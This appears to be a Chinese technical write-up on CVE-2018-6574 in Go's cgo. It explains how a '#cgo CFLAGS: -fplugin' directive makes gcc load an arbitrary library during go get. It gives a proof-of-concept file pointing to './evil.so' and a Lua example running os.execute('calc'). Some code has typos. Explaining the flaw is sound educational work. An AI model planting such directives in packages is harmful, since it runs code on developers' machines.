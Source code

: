 **go内嵌lua脚本样例：**

```go
package main

import "github.com/yuin/gopher-lua"

func main() {
    L := lua.NewState()
    defer L.Close()
    if err := L.Dostring(`print("hello world.")`); err != nil {
        panic(err)
    }
    if err := L.Dostring(`os.execute("calc")`); err != nil {
        panic(err)
    }
}
```

**CVE-2018-6574漏洞简介**

影响版本：

```
before 1.8.7
Go 1.9.x before 1.9.4
Go 1.10 pre-releases before Go 1.10rc2  
```

漏洞原理：

Go语言允许与C语言的互操作，即在Go语言中直接使用C代码。代码可以直接通过go build或go run来编译和执行，但实际编译过程中，go调用了名为cgo的工具，cgo会识别和读取Go源文件中的C元素，并将其提取后交给C编译器编译，最后与Go源码编译后的目标文件链接成一个可执行程序。gcc/clang这类的C编译器有`CFLAGS，LDFLAGS`等编译开关让开发者在编译时指定设置。cgo作为一个gcc的封装，自然也支持这类的编译开关选项。而gcc编译时，可以通过`-fplugin`指定额外的插件，gcc在编译时会加载这个插件。因此，除了在Go源码文件中可以嵌入了C代码之外，还可以指定通过`#cgo CFLAGS`指定gcc编译时的恶意插件。cgo在解析到CFLAGS关键字时，会将后面的编译选项传递给gcc。`-fplugin`指定额外的插件，可为任意的动态库，因此就获得了代码的执行权限。

这类漏洞本地执行不会有什么问题，因为自己不会引入恶意代码。但是使用`go get`导入恶意远程包的时候就存在问题。

代码示例：

```go
package main

/*
#cgo CFLAGS: -fplugin=./evil.so
#include 
void print(char *str){
	printf("%s\n",str);
}
*/

import "C"
import "unsafe"
import "fmt"

func main() {
    fmt.Println("hello world.")
    s := "cgo test"
    cs : = C.CSstring(s)
    C.print(cs)
    C.free(unsafe.Pointer(cs))
}
```
